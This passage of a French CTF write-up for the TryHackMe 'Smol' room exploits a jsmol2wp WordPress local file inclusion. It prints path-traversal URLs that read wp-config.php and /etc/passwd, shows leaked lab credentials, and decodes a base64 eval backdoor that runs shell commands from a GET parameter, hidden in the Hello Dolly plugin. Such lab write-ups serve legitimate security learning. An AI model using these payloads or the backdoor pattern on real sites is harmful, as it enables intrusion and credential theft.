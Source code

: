 Lorsque nous recherchons un exploit pour `jsmol2wp version 1.07` nous trouvons le [CVE-2018-20463](https://pentest-tools.com/vulnerabilities-exploits/wordpress-jsmol2wp-107-local-file-inclusion_2654)  avec un PoC [ici](https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt). La vulnérabilité permet la lecture arbitraire de fichiers. En utilisant l'url ci-dessous, nous trouvons des identifiants, `wpuser:kbLSF2Vop#lw3rjDZ629*Z%G`.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

![credentials leaked](/images/THM-Smol/creds_leaked.png)

En utilisant la même vulnérabilité, nous énumérons également les utilisateurs du système.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../../../../etc/passwd
```

Nous identifions quatre utilisateurs: `think`, `xavi`, `diego`, et `gege`.

![users on the system](/images/THM-Smol/system_users.png)

Les identifiants sont valides sur la page de connexion WordPress, ce qui nous permet d'accéder au tableau de bord.

![WordPress dashboard](/images/THM-Smol/wp_dashboard.png)

Dans la section `Pages` nous trouvons une page (`Webmaster Tasks!!`) qui n'était pas affichée sur le blog. Nous pouvons également y accéder en allant sur `http://www.smol.thm/index.php/to-do/`.

![todo page](/images/THM-Smol/todo_page.png)

La première tâche mentionne un plugin appelé `Hello Dolly`, nous demandant de vérifier son code source. Après quelques recherches, nous trouvons que le fichier du plugin (`hello.php`) est situé dans `wp-content/plugins`.

![hello dolly php file](/images/THM-Smol/hello_dolly.png)

## Accès initial

Une fois de plus, en exploitant notre vulnérabilité LFI, nous pouvons voir le contenu du fichier.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php
```

![hello dolly code](/images/THM-Smol/hello_dolly_code.png)

Nous trouvons une fonction eval et la chaîne base64 se décode comme suit: `if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }`. La fonction `hello_dolly()` semble être un backdoor. Le plugin est censé n'afficher qu'une ligne de la chanson [Hello Dolly](https://www.youtube.com/watch?v=l7N2wssse14&ab_channel=AustinCasey) sur le tableau de bord.
